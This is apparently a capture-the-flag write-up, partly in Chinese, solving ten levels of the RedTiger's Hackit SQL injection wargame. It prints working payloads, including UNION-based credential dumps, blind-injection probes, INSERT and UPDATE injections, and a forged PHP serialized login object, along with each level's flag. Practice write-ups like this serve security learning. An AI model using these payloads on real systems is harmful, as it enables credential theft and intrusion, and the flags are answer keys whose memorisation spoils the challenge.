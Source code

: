 # SQL Practice@[RedTigers Hackit](http://redtiger.labs.overthewire.org)

## Level 1

1.  确定列数: `?cat=1 order by 5`
2.  确定显示位置:　`?cat=0 union select 1,2,3,4 from level1_users`
3.  Get: `?cat=0 union select 1,2,username,password from level1_users`
4.  flag: `27cbddc803ecde822d87a7e8639f9315`

## Level 2

1.  `' or 1=1#`
2.  flag: `1222e2d4ad5da677efb188550528bfaa`

## Level 3

> Target: Get the password of the user Admin.
> Hint: Try to get an error. Tablename: level3_users

1.  构造错误: `level3.php?usr[]=MTI5MTY0MTczMTY5MTc0`
    > Show userdetails:
    > Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21
2.  [urlcrypt.inc](./level_3/urlcrypt.inc)
3.  得到两个函数，encrypt和decrypt分别用来解密和加密
4.  构造PHP语句，确定列数:
    ```php
    $url='http://redtiger.labs.overthewire.org/level3.php?usr=';
    $order='admin\'order by 7 #';
    $order=encrypt($order);
    echo "$url$order <br>";
    $url='http://redtiger.labs.overthewire.org/level3.php?usr=';
    $order='admin\'order by 8 #';
    $order=encrypt($order);
    echo "$url$order <br>";
    ```
5.  构造PHP语句，拿到flag:
    ```php
    $url='http://redtiger.labs.overthewire.org/level3.php?usr=';
    $order='\' union select 1,username,3,password,5,6,7 from level3_users where username=\'admin\' #';
    $order=encrypt($order);
    echo "$url$order <br>";
    ```
6.  flag: `a707b245a60d570d25a0449c2a516eca`

## Level 4

>  Target: Get the value of the first entry in table level4_secret in column keyword
>
>  Disabled: like

1.  判断目标长度: `?id=1 and length(keyword)=17`
2.  猜测目标内容：`?id=1 and ASCII(SUBSTR(keyword,1,1))=0`
3.  [利用脚本](./level.py)
4.  flag: `e8bcb79c389f5e295bac81fda9fd7cfa`

## Level 5

-   `username=' union select 1,'c4ca4238a0b923820dcc509a6f75849b&password=1&login=Login`

## Level 6

-   `0 union select 1,0x61646d696e,3,4,5 from level6_users where status=1`
-   第二个参数可注入，构造第二个参数: `'union all select 1,2,3,4,5 from level6_users#`, 编码后为 `0x27756e696f6e20616c6c2073656c65637420312c322c332c342c352066726f6d206c6576656c365f757365727323`, 拼接后为`0 union select 1,0x27756e696f6e20616c6c2073656c65637420312c322c332c342c352066726f6d206c6576656c365f757365727323,3,4,5 from level6_users where status=1#`
-   得知用户名为第二个字段，密码为第四个字段
-   `' union select 1,username,3,password,5 from level6_users where id=3 --`, 拼接后为 `0%20union%20select%201,0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20,1,1,1%20from%20level6_users%20where%20status=1`

## Level 7

-   `'`->`SELECT news.*,text.text,text.title FROM level7_news news, level7_texts text WHERE text.id = news.id AND (text.text LIKE '%'%' OR text.title LIKE '%'%')`
-   `'''`->`SELECT news.*,text.text,text.title FROM level7_news news, level7_texts text WHERE text.id = news.id AND (text.text LIKE '%'''%' OR text.title LIKE '%'''%')`
-   payload: `google%'and locate('%s',news.autor COLLATE latin1_general_cs)=%d and '%'='`
-   Username:`TestUserforg00gle`

## Level 8

-   `'12345', age = '25' WHERE id = 1' at line 3 Username: Admin`
-   `hans@localhost' ,name=password ,icq=1,age='1`

## Level 9

-   注入点在文本框
-   Insert注入, `'), ('a','a','a`
-   payload: `'), ((select username from level9_users),(select password from level9_users),'a`

## Level 10

-   抓包，解码后得 `a:2:{s:8:"username";s:6:"Monkey";s:8:"password";s:12:"0815password";}`
-   反序列化得: ``
-   修改后得`a:2:{s:8:"username";s:9:"TheMaster";s:8:"password";b:1;}`
